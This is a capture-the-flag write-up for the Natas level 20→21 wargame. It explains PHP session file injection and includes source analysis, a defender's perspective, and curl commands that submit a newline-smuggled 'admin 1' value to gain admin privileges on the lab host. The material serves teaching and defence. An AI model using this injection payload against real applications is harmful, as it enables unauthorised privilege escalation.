


# Natas Level 20 → 21

**Vulnerability:** PHP Session File Manipulation via Newline Injection
**Difficulty:** Hard
**Tools Used:** Browser Developer Tools, curl, PHP Session Debug Output
**OWASP Category:** A01:2021 – Broken Access Control
**Attack Class:** Session Injection

---

### What the level gives you

The application allows users to modify their display name. A debug mode reveals how PHP session data is written and read from server-side session files.

The page provides source code and exposes internal session processing logic. Session variables are stored inside a file and reconstructed when the session is loaded.

The objective is to elevate privileges by manipulating session data.

---

### Vulnerability theory

PHP session systems commonly store key-value pairs in a serialized format. When user-controlled input is written directly into the session structure without proper validation, attackers may inject additional session variables.

This vulnerability occurs because newline characters are treated as separators between session entries.

If an attacker can insert a newline into a stored value, they can create entirely new session variables inside the session file.

The attack primitive is privilege escalation through arbitrary session variable creation.

---

### Source code analysis

Relevant logic:

```php
foreach($data as $line) {

    if(strpos($line, " ") === false) {
        continue;
    }

    list($key, $value) = explode(" ", $line, 2);

    $_SESSION[$key] = $value;
}
```

Analysis:

```php
list($key, $value) = explode(" ", $line, 2);
```

Each line becomes a session variable.

---

```php
$_SESSION[$key] = $value;
```

Any line that follows the expected format is trusted and loaded directly into the session.

---

Because user input is written to the session file without sanitizing newline characters, attackers can inject additional entries.

---

### Approach

I first enabled debug mode and observed how session data was stored.

Entering:

```text
admin1
```

generated:

```text
name => admin1
```

which showed that user-controlled values were being written directly into the session file.

The breakthrough came from realizing that each line represented a separate session entry. If I could inject a newline character into the name field, I could create a second session variable.

I attempted to submit a payload containing both a normal username and an additional admin entry.

---

### Exploitation

Stage 1 — Store a malicious name value

```bash
curl -b cookie.txt -c cookie.txt \
  -u natas20:<PASSWORD> \
  -d $'name=test\nadmin 1' \
  http://natas20.natas.labs.overthewire.org/
```

Payload:

```text
test
admin 1
```

---

Stage 2 — Session file becomes

```text
name test
admin 1
```

---

Stage 3 — Reload session

```bash
curl -b cookie.txt \
  -u natas20:<PASSWORD> \
  http://natas20.natas.labs.overthewire.org/
```

Response:

```html
You are an admin.
The credentials for the next level are:
```

The injected session variable granted administrator privileges.

---

### Screenshot

#### Debug output showing session file creation



#### Administrator access after session reload



---

### Real-world relevance

This vulnerability is a form of Broken Access Control and Session Manipulation. Similar flaws have appeared in custom authentication systems that serialize user data into files, caches, or key-value stores without proper validation.

Professional penetration tests occasionally uncover privilege escalation paths where attackers inject unexpected session variables, overwrite authorization flags, or abuse insecure deserialization routines.

The impact is often complete account takeover or administrative access without credential compromise.

---

### Defender's perspective

User-controlled values should never be written directly into authorization-sensitive session structures. Input must be sanitized and encoded before storage.

Applications should separate authorization state from user-editable data and rely on framework-managed session serialization.

Detection opportunities include monitoring unexpected session variable creation, unusual privilege transitions, and anomalous session file modifications.

Secure session storage mechanisms eliminate this entire vulnerability class.

---

### What I'd do differently

I spent time examining the session identifier itself before focusing on the debug output. The debug mode effectively disclosed the exact storage format, making session injection the most direct attack path.